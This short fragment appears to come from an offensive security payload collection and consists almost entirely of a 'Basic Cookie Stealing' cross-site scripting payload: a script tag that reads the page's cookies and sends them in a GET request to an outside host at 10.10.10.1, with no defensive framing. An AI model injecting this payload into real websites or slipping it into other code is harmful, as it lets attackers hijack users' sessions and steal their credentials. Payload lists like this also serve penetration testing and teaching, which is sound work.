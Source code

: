 # Payloads

## Basic Cookie Stealing

```
<script>
  var Http = new XMLHttpRequest();
  var cookie = document.cookie;
  var url= 'https://10.10.10.1/' + cookie;
  Http.open("GET", url);
  Http.send();
</script>
```
